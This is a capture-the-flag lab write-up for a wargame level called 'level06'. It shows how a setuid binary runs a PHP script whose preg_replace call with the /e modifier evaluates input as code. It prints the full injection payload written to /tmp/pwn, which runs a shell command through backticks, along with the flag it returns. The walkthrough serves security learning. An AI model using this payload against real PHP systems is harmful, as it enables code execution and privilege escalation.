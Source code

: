 # level06

- We log as `level06`

- Two files are located inside the home directory of level06:
>`-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06`
>`-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php`

- The executable file has extended permissions:
```
# file: level06
# owner: flag06
# group: level06
# flags: s--
user::rwx
group::---
group:level06:r-x
mask::r-x
other::---
```

- We can see that the executable will be executed as `flag06` if we execute it being `level06`

- Upon execution without arguments the executable prints:
>`PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4`

- That error being a PHP error we try to run the php script with `php ./level06.php`:
>`PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5`
>`PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5`
>`PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4`

- We can see that one of the errors is the same, maybe the executable is running the script

- Upon execution with an argument with `./level06 test` the program prints:
>`PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4`

- When trying to execute the php script with `php ./level06 test` it prints:
>`PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5`
>`PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4`

- The similarity between those errors confirm that the executable runs the script.

- Let's take a look to the script:
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

- This script finds patterns inside a file passed as parameter and replace them using the `preg_replace` function

- The `preg_replace` function has a major security issue in versions of PHP older than 5.5.0 due to the `/e` allowing to evaluate the second parameter as PHP code:
>`preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`

- This line will look for a pattern `[x anything]` and will transform it into `anything`, this value being composed of any character and any length:
>`(\[x (.*)\])`

- The `anything` element is passed through the second parameter with `\\2` and then passed through the `y` function
>`y(\"\\2\")`

- This whole parameter being evaluated as PHP code thanks to `/e` we can inject code in the pattern to be run, in a file `/tmp/pwn`, we write
>`[x ${`\``getflag`\``}]`

- Upon evaluation, the getflag command will be executed thanks to ` ` ` (back quote):
>`PHP Notice:  Undefined variable: Check flag.Here is your token :`
>`wiok45aaoguiboiki2tuin6ub`
>`in /home/user/level06/level06.php(4) : regexp code on line 1`

- We get the flag: `wiok45aaoguiboiki2tuin6ub`

